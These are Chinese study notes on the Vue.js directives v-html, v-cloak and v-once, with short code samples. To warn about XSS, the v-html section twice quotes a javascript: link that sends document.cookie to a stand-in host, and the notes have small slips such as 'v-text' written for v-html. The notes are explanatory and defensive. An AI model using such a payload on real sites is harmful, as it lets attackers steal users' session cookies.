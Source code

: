 #### <span style='color:hotpink'>v-html 指令</span>

- 作用：向指定节点中渲染包含 html 结构的内容
- 与插值语法区别：`v-text`会替换掉节点中的内容，并解析 html 标签
- 引用的<span style='color:hotpink'>值必须写在 data 的配置项中</span>，否则报错且不解析

```vue
<div v-html="str"></div>
<script>
new Vue({
    el:"#one",
    data:{
        str:"<a href=javascript:location.href='http://xxx.com'+document.cookie>点我</a>";
    }
})
</script>
```

##### v-html 安全问题

- 用户一旦输入可解析的标签,会影响体验
- 在网站上动态渲染任意 html 是危险行为，容易导致 XSS 攻击(冒充用户之手)
- 坏人:使用 a 链接并携带当前网站的 Cookie,将导致 Cookit 泄露,被盗号....
  - 例子：<span style='color:hotpink'>`<a href=javascript:location.href="http.xxx.com?"+document.cookie>我是非法链接</a>`</span>
- 永远不要相信用户的输入,不要在用户提交的数据上使用

#### v-cloak 指令(没有值)

- 本质：一个特殊的属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性
- 使用 css 配合 v-cloak 可以<span style='color:hotpink'>解决网速慢时页面显示未经解析过的页面</span>的问题
- **使用脚手架开发时，vue 源码会被一起打包，因此不存在 vue 加载问题，没有实际用途**

```vue
<style>
/* 属性选择器，选择所有包含v-cloak属性的标签*/
/* 当对应节点被vue解析后，自动去掉v-cloak属性 */
[v-cloak] {
  display: none;
}
</style>
<div v-cloak>{{name}}</div>
//当该标签未经过vue解析时，不会出现在页面上
```

#### v-once 指令(没有值)

- `v-once`所在的节点在<span style='color:hotpink'>初次动态渲染</span>后，就视为静态内容
- 以后数据的改变不会引起`v-once`所在结构的更新，可<span style='color:hotpink'>用于优化性能</span>
- 与事件修饰符的`.once`不同，`.once`表示事件只触发一次
- 在实际项目中不常用，不仅易于维护，且在性能提升方面效果甚微

```vue
<div id="app">
    <!-- v-once  仅在初始化时渲染一次，后期不会再渲染，有利于提高效率 -->
    <!-- 点击button后初始值不会变化 当前值累加  -->
    <h2 v-once>初始化的n值是：{{n}}</h2>
    <h2>当前的n值是：{{n}}</h2>
    <button @click="n++">点击n++</button>
</div>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#app",
  data: {
    n: 1,
  },
});
```